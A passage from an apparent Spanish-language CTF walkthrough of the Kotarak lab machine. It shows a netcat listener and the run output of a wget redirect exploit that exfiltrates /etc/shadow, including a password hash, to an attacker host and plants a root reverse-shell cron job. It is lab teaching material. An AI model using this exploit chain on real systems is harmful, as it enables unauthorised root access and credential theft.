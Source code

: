 Nos ponemos en escucha por el puerto 443:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y ahora si ejecutamos el exploit en la máquina víctima:

```bash
atanas@kotarak-dmz:/dev/shm$ authbind python wget-exploit.py
Ready? Is your FTP server running?
FTP found open on 10.10.14.16:21. Let's go then
                                
Serving wget exploit on port 80...
                                
                                                                
We have a volunteer requesting /archive.tar.gz by GET :)
                                                                
Uploading .wgetrc via ftp redirect vuln. It should land in /root  
                                
10.0.3.133 - - [19/Oct/2021 18:22:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.14.16:21/.wgetrc 
                                                                                                                                 
We have a volunteer requesting /archive.tar.gz by POST :)
                                
Received POST from wget, this should be the extracted /etc/shadow file:
---[begin]---                                                   
 root:*:17366:0:99999:7:::                                                                                                       daemon:*:17366:0:99999:7:::
bin:*:17366:0:99999:7:::                                                                                                         
sys:*:17366:0:99999:7:::
sync:*:17366:0:99999:7:::                                                                                                        
games:*:17366:0:99999:7:::
man:*:17366:0:99999:7:::
lp:*:17366:0:99999:7:::
mail:*:17366:0:99999:7:::
news:*:17366:0:99999:7:::
uucp:*:17366:0:99999:7:::
proxy:*:17366:0:99999:7:::
www-data:*:17366:0:99999:7:::
backup:*:17366:0:99999:7:::
list:*:17366:0:99999:7:::
irc:*:17366:0:99999:7:::
gnats:*:17366:0:99999:7:::
nobody:*:17366:0:99999:7:::
systemd-timesync:*:17366:0:99999:7:::
systemd-network:*:17366:0:99999:7:::
systemd-resolve:*:17366:0:99999:7:::
systemd-bus-proxy:*:17366:0:99999:7:::
syslog:*:17366:0:99999:7:::
_apt:*:17366:0:99999:7:::
sshd:*:17366:0:99999:7:::
ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::
  
---[eof]---


Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response
)
```